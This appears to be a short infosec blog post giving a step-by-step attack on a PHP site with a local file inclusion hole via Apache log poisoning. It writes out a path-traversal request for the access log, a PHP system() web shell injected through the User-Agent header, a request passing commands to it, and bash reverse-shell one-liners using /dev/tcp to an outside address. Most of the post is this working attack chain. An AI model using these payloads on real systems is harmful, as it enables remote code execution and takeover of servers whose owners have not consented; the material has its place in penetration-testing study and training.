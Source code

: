 ```yaml
---
layout: post
title: Local File Inclusion - Apache User Agent Exploit
titledate: 08/29/23
tags: ["infosec","offsec", "web", "lfi", "shell", "exploit"]
---
```


<h4>Apache Web Server Log Poisoning</h4>

In this example, it is possible to inject a script via the HTTP User-Agent header into the Apache web server access log.

If we send an HTTP GET request via curl or burp to the server we can see the result of the User-Agent get logged 

    $ curl http://vulnapp.com/index.php?page=../../../../../../../../../var/log/apache2/access.log 

Using burp again or curl with the -A or --user-agent parameter we can try any string to verify that our agent is indeed showing up in the logs

With this vulnerability we can include some php to run system and let us execute commands by replacing the User-Agent with the following

    $ <?php echo system($_GET['cmd']); ?>

Now when we make a request to the access log and pass it the new argument cmd that we injected with our php script we should run the command via php's system

    GET /vulnapp/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls HTTP/1.1
    Host: vulnapp.com
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close

    <h3>NOTE: we removed the User-Agent header to keep from overwriting our injected script</h3>

Finally we can use the following bash 1-liner to attempt to establish a reverse tcp shell connection

    $ bash -i >& /dev/tcp/192.168.1.1/443 0>&1

The above command may fail if the command runs via sh and not bash, in which case

    $ bash -c "bash -i >& /dev/tcp/192.168.1.1/443 0>&1"

And of course we need to % [encode](https://www.urlencoder.org) our url

![_config.yml]({{ site.baseurl }}/images/web/lfi_shell.png)

